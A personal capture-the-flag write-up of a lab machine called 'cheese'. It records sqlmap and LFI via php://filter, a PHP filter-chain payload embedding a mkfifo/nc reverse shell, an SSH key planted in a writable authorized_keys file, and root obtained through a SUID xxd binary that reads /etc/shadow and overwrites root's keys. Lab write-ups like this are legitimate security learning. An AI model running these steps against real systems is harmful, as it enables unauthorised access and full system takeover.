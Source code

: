 http://10.10.248.124:62078/
This was mind bogging for me, completed in around 2 to 3 hrs

## Enumeration
nmapped the IP, got a lot of open ports
I banner grabbed all of them and check if anything is there
	found some telnet sessions that auto-disconnect, did some digging and got nothing
also fuuf'd directories simultaneously

There was also a login page on the `http://cheese.thm/login.php`
then I SQL mapped the page and  an additional fun fact was that I can capture the requests on burp and then make sqlmap analyze it, at first i didn't even find it in the man page 
`┌──(namura㉿namu)-[~/thm/cheese]
└─$ sqlmap -r login.req `
got something 
`got a 302 redirect to 'http://10.10.248.124/secret-script.php?file=supersecretadminpanel.html'. Do you want to follow? [Y/n] 
`
Then i followed the URI and bam we are in
while the sqlmap was not in my mind I used burp intruder to bruteforce usernames and passwords to the form on the form
also I did some `fuf -w /usr/share/wordlists/sqlmap.txt -X POST -u http://cheese.thm/login.php -d 'username=FUZZ&password=asdf' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 227` but got nowhere
	`POST /login.php HTTP/1.1
	Host: 10.10.248.124
	Content-Length: 29
	Cache-Control: max-age=0
	Origin: http://10.10.248.124
	Content-Type: application/x-www-form-urlencoded
	Upgrade-Insecure-Requests: 1
	User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
	Sec-GPC: 1
	Accept-Language: en-US,en;q=0.5
	Referer: http://10.10.248.124/login.php
	Accept-Encoding: gzip, deflate, br
	Cookie: Ipswitch={
	Connection: keep-alive
	
	username=admin&password=admin`
using the https://github.com/payloadbox/sql-injection-payload-list?tab=readme-ov-file#generic-error-based-payloads
and many others lists and damn it was gruesome

then I mapped the site and got a http://10.10.248.124/secret-script.php?file=php://filter/resource=messages.html
which was a LFI and so i checked the code exec http://10.10.248.124/secret-script.php?file=php://filter/resource=/etc/passwd
bam, got the passwd file and shadow was not permitted obv

Then I got stuck.. again
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers
got this and read a whole lotta text but nothing
then https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it
and we used this script https://github.com/synacktiv/php_filter_chain_generator

and then I used
`$ python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc myIP port >/tmp/f"); ?>' | grep '^php' > payload.txt`
and also 
`$ curl -s "http://cheese.thm/secret-script.php?file=$(cat payload.txt)"`

then we finally get a shell as www-data
then I linpeas.sh'd it and found a CVE-2021-3560 which was not applicable lol
and then found a juicy writable file 
`/home/comte/.ssh/authorized_keys
/etc/systemd/system/exploit.timer`
then I generated a key `$ ssh-keygen -f id_ed25519 -t ed25519` and inserted the .pub to the file 

and we got in as comte

then I `sudo -l`'d  and found some 
`comte@ip-10-10-84-217:~$ sudo -l
User comte may run the following commands on ip-10-10-84-217:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
`

and i searched it on gtfobins but none related to it also this too:
https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#timers

then I used gpt to change the contents of the file and then made it spawn a shell to root but it didn;t work 
the exploit.service file was non-mutable huhu kho yesto

then I saw that the exploit.service had xxd on it with SUID bit yay~
`comte@ip-10-10-84-217:~$ cat /etc/systemd/system/exploit.service
[Unit]
Description=Exploit Service
[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
`
then i checked xxd and it actually worked
I used it to get the /etc/shadow file 
and then I unshadow'd and cracked it using john but it was not in complete form so it didn't work
then I realised that i could just do this again 
`comte@cheesectf:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFcXGUzqIgioBomAfMAYAEgw4fEay2i11v4s8WdsW81F namura@namu
' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys`
and  

I ssh'd as root
and we got both the flags yay~
